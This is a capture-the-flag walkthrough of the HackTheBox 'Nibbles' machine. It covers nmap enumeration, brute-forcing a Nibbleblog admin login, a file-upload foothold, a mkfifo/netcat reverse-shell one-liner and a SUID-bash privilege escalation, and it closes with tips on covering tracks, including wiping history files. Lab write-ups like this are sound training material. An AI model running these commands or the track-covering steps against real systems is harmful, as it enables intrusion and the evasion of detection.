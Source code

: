 ## Hackthebox 		Nibbles (10.129.3.40)


### Enumeration

I'll start off with an nmap scan and we notice only ports 22 ssh, and 80 web are open.


	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
	|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
	|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
	80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 3.16 (96%), Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 4.2 (96%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=10/3%OT=22%CT=%CU=38158%PV=Y%DS=2%DC=T%G=N%TM=66FEE817%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=I%TS=3)
	SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
	ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)

	Uptime guess: 0.699 days (since Wed Oct  2 21:07:09 2024)
	Network Distance: 2 hops
	TCP Sequence Prediction: Difficulty=252 (Good luck!)
	IP ID Sequence Generation: All zeros
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE (using port 80/tcp)
	HOP RTT      ADDRESS
	1   61.98 ms 10.10.14.1
	2   62.02 ms 10.129.3.40

	Read data files from: /usr/share/nmap
	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

### Further enum - next I'll run an nmap vuln scan against port 80 followed by an nmap script http scan.

nmap --script= vuln -T4 -oN nmap-vuln-scan.nmap 10.129.3.40

nmap --script- http-* -T4 -oN nmap-http-scan.nmap 10.129.3.40

![website](/Nibbles/images/nibbles.png) 

The website just says 'hello world' I looks to be an apache server v 2.4

My nmap vuln scan didn't return any useful results however, when I was waiting it to finish I viewed the source code of the web page and found there is a /nibbleblog/ directory. And it is a working directory.

![website](/Nibbles/images/source.png) 

I also found a readme page that shows us it's running nibbleblog v 4.0.3

![website](/Nibbles/images/readme.png) 

These were all the directories that returned a 200 response after running a gobutser scan.

![website](/Nibbles/images/dir-enum.png) 

Under the /content/private directory I found a users.xml file that had a username of admin.

![website](/Nibbles/images/user.png) 

Since I know there is an admin user and I can't find a password I decided to run cewl against the site to generate an uppercase and lowercase wordlist.

![website](/Nibbles/images/cewl.png) 

![website](/Nibbles/images/cewl2.png) 

Next, I'll caputer one of the post requests with burp and send it to intrude and set the payload value to password and run my wordlists and see if I get any hits. Just load the word list and make sure payload is set on the password variable and hit Start attack.


![website](/Nibbles/images/burp.png) 

![website](/Nibbles/images/burp2.png) 

Oops it looks like a triggered a security mechanism to prevent brute force attacks against the website however, I did get a 200 response from the password Nibbles before I got blacklisted LOL. I might have to wait a while or just reset the box but now I have a working username and password. This is one thing to watch out for when brute forcing websites and services.

![website](/Nibbles/images/200.png) 

![website](/Nibbles/images/admin.png) 

After waiting a bit I was able to login to the admin page.

![website](/Nibbles/images/login.png) 

Using searchsploit I find that there's also a metasploit file upload vulnerability and it's for the version we have 4.0.

![website](/Nibbles/images/foothold.png) 

### Foothold

I did finally get the metasploit module working and I'll show that really quick. But you can also upload a php reverse shell through the plugins --> My image --> upload. and then just go to /content/private/images/<shell name>. But heres the metaslpoit way.

With these options set we should get a shell.

![website](/Nibbles/images/metasploit.htb) 


Well need to set the following options for the module. And we can try and run it and see if we get a shell.

![website](/Nibbles/images/shell.png) 


### Privilege Escalation

We do get a shell as the user nibbler. We can now grab the user.txt flag and running sudo -l shows

	User nibbler may run the following commands on Nibbles:
	    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


there is no personal directory but there is a personal.zip file if we unzip it it creates the /personal/stuff/monitor.sh path and shell.

if we just echo this to monitor.sh is should give us a root shell.

	#!/bin/bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.240 1234 >/tmp/f


![foothold](/Nibbles/images/pre-root.png) 

Now I'll set a netcat lister on port 1234 on my attack box and run sudo /home/nibbler/personal/stuff/monitor.sh and it should give us a root shell.

And we do get a root shell and can now grab the root.txt flag.

![foothold](/Nibbles/images/root.png) 

Now if you're going for your OSCP and don't want to burn your metasploit useage or have already used it there is another way to get a shell with out Metasploit.

We can use our credentials of admin:nibbles to login to the admin page. Go to plugins --> my image --> unload a php reserse shell on the host. It will throw a lot of errors but it does work. If you are on kali a good one is at /usr/share/webshells/php/.

Once the php file is uploaded if we go to /nibbleblog/content/private/plugins/my_image we should find our reverse shell and make sure you have a listener set up and click on the image file to spawn the shell.

![foothold](/Nibbles/images/plugin.png) 

![foothold](/Nibbles/images/alt.png) 

We can also try something else for priv esc. Instead of writing a reverse shell to monitor.sh which might flag us flags by network EDR's we can try a script like the following:

	$!/bin/bash

	/bin/chmod u+s /bin/bash && /bin/cp /bin/bash /tmp/bash

In theory after we execute monitor.sh it should set the u & s bits on bash and them copy it to tmp. From there we can either cd to the tmp directory or just /tmp/bash -p to get root privileges on the host.

![foothold](/Nibbles/images/chmod.png) 

It definitely copied /bin/bash to the temp directory but that isn't all we wanted. I modified our script a litle bit. Let's see if it will work now.

![foothold](/Nibbles/images/modify.png) 

Still no luck, However, checking the permissions of /bin/bash it did get the s system varible added to it so we should just be able to execute /bin/bash -p and still get a root shell. It didn't copy it to /tmp with the permissions set like we wanted but still just executing /bin/bash -p does give us root on the box. 

![foothold](/Nibbles/images/root2.png) 

Don't forget to cleanup all the scripts and bash binaries we left in /tmp before leaving. Don't wanna leave too many footprints lazying around ;) 

I copied the personal.zip file to my attack machine before I started messing around with it on the target, also that way I could replace it later. I deleted the /personal /stuff directories it made under the nubbler user and all the binaries in /tmp. Back to personal.zip in nibbler directory. We're on our way to coverying all our tracks. Don't forget about those history files either. Welp that's all for now.

![foothold](/Nibbles/images/cleanup.png) 
